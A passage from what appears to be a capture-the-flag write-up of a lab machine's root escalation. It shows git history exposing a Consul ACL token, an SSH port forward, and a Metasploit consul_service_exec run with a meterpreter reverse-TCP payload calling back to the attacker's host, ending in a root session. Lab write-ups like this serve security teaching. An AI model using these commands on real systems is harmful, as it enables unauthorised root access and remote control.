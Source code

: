 A .git folder. Let’s look it out right away…

```bash
developer@ambassador:/opt/my-app$ git show
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
{: .nolineno }

After some googling about consul, we found some references for the privilege escalation [here](https://vulners.com/osv/OSV:GHSA-CCW8-7688-VQX4). 

### Metasploit method

Launch msf and start a new ssh session with the following command: `ssh -L 8500:0.0.0.0:8500 developer@10.10.11.183`

Once the ssh session has started let’s execute a one-liner to execute the exploit found on metasploit.

```bash
sudo msfconsole -q -x "use multi/misc/consul_service_exec; set payload linux/x86/meterpreter/reverse_tcp;set rhosts 127.0.0.1; set lhost 10.10.14.15; set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5; set lport 8801; exploit"
[sudo] password for kali: 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
rhosts => 127.0.0.1
lhost => YOU_I.P
acl_token => bb03b43b-1d81-d62b-24b5-39540ee469b5
lport => 8801
[*] Started reverse TCP handler on 10.10.14.15:8801 
[*] Creating service 'YtquYi'
[*] Service 'YtquYi' successfully created.
[*] Waiting for service 'YtquYi' script to trigger
[*] Sending stage (1017704 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.15:8801 -> 10.10.11.183:49250) at 2022-12-22 09:35:17 -0500
[*] Removing service 'YtquYi'
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > getuid
Server username: root
meterpreter > pwd
/
```
{: .nolineno }
